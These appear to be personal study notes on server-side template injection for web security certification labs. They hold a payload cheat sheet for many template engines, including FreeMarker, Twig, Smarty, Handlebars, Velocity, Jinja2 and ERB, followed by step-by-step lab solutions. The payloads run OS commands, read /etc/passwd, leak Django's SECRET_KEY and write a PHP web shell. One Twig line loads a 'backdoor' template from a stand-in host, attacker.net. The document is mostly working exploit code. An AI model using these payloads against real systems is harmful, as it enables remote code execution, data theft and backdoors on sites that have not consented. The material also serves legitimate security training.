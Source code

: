 ![imagen](https://github.com/KrakenEU/BSCP/assets/80364768/04ebf58a-e6c7-463e-9593-126d84ad57c8)

```
{{7*7}}
${7*7}
<%= 7*7 %>
${{7*7}}
#{7*7}
```
Use the intruder to test payloads
check errors and move forward, search for exploits, etc.
```
Polyglot:
${{<%[%'"}}%\

FreeMarker (Java):
${7*7} = 49
<#assign command="freemarker.template.utility.Execute"?new()> ${ command("cat /etc/passwd") }

(Java):
${7*7}
${{7*7}}
${class.getClassLoader()}
${class.getResource("").getPath()}
${class.getResource("../../../../../index.htm").getContent()}
${T(java.lang.System).getenv()}
${product.getClass().getProtectionDomain().getCodeSource().getLocation().toURI().resolve('/etc/passwd').toURL().openStream().readAllBytes()?join(" ")}

Twig (PHP):
{{7*7}}
{{7*'7'}}
{{dump(app)}}
{{app.request.server.all|join(',')}}
"{{'/etc/passwd'|file_excerpt(1,30)}}"@
{{_self.env.setCache("ftp://attacker.net:2121")}}{{_self.env.loadTemplate("backdoor")}}

Smarty (PHP):
{$smarty.version}
{php}echo `id`;{/php}
{Smarty_Internal_Write_File::writeFile($SCRIPT_NAME,"<?php passthru($_GET['cmd']); ?>",self::clearConfig())}

Handlebars (NodeJS):
wrtz{{#with "s" as |string|}}
{{#with "e"}}
{{#with split as |conslist|}}
{{this.pop}}
{{this.push (lookup string.sub "constructor")}}
{{this.pop}}
{{#with string.split as |codelist|}}
{{this.pop}}
{{this.push "return require('child_process').exec('whoami');"}}
{{this.pop}}
{{#each conslist}}
{{#with (string.sub.apply 0 codelist)}}
{{this}}
{{/with}}
{{/each}}
{{/with}}
{{/with}}
{{/with}}
{{/with}}

Velocity:
#set($str=$class.inspect("java.lang.String").type)
#set($chr=$class.inspect("java.lang.Character").type)
#set($ex=$class.inspect("java.lang.Runtime").type.getRuntime().exec("whoami"))
$ex.waitFor()
#set($out=$ex.getInputStream())
#foreach($i in [1..$out.available()])
$str.valueOf($chr.toChars($out.read()))
#end

ERB (Ruby):
<%= system("whoami") %>
<%= Dir.entries('/') %>
<%= File.open('/example/arbitrary-file').read %>

Django Tricks (Python):
{% debug %}
{{settings.SECRET_KEY}}

Tornado (Python):
{% import foobar %} = Error
{% import os %}{{os.system('whoami')}}

Mojolicious (Perl):
<%= perl code %>
<% perl code %>

Flask/Jinja2: Identify:
{{ '7'*7 }}
{{ [].class.base.subclasses() }} # get all classes
{{''.class.mro()[1].subclasses()}}
{%for c in [1,2,3] %}{{c,c,c}}{% endfor %}

Flask/Jinja2: 
{{ ''.__class__.__mro__[2].__subclasses__()[40]('/etc/passwd').read() }}

Jade:
#{root.process.mainModule.require('child_process').spawnSync('cat', ['/etc/passwd']).stdout}

Razor (.Net):
@(1+2)
@{// C# code}
```
ERB
```
<%= system('cat /etc/passwd') %>
```

---------- lab stuff
##### # Basic server-side template injection (code context)
https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection
Tornado (Python)
```
{% import foobar %} = Error
{% import os %}

{% import os %}
{{os.system('whoami')}}
```


##### # Server-side template injection using documentation
${} = freemarker
```
<#assign ex="freemarker.template.utility.Execute"?new()> 
{ ex("id") }
```

##### Server-side template injection in an unknown language with a documented exploit
Experiment by injecting a fuzz string containing tem![[Pasted image 20240112131649.png]]plate syntax from various different template languages, such as `${{<%[%'"}}%\`, into the `message` parameter. Notice that when you submit invalid syntax, an error message is shown in the output. This identifies that the website is using Handlebars.
https://mahmoudsec.blogspot.com/2019/04/handlebars-template-injection-and-rce.html
```
wrtz{{#with "s" as |string|}} 
	{{#with "e"}} 
		{{#with split as |conslist|}} 
			{{this.pop}} 
			{{this.push (lookup string.sub "constructor")}} 
			{{this.pop}} 
				{{#with string.split as |codelist|}} 
				{{this.pop}} 
				{{this.push "return require('child_process').exec('rm /home/carlos/morale.txt');"}} 
				{{this.pop}} 
				{{#each conslist}} 
					{{#with (string.sub.apply 0 codelist)}} 
						{{this}} 
					{{/with}} 
				{{/each}} 
			{{/with}} 
		{{/with}} 
	{{/with}} 
{{/with}}
```
 URL encode it and paste it in ?message=

##### Server-side template injection with information disclosure via user-supplied objects
1. Log in and edit one of the product description templates.
2. Change one of the template expressions to something invalid, such as a fuzz string `${{<%[%'"}}%\`, and save the template. The error message in the output hints that the Django framework is being used.
3. Study the Django documentation and notice that the built-in template tag `debug` can be called to display debugging information.
4. In the template, remove your invalid syntax and enter the following statement to invoke the `debug` built-in:
5. `{% debug %}`
6. Save the template. The output will contain a list of objects and properties to which you have access from within this template. Crucially, notice that you can access the `settings` object.
7. Study the `settings` object in the Django documentation and notice that it contains a `SECRET_KEY` property, which has dangerous security implications if known to an attacker.
8. In the template, remove the `{% debug %}` statement and enter the expression `{{settings.SECRET_KEY}}`
9. Save the template to output the framework's secret key.
10. Click the "Submit solution" button and submit the secret key to solve the lab.
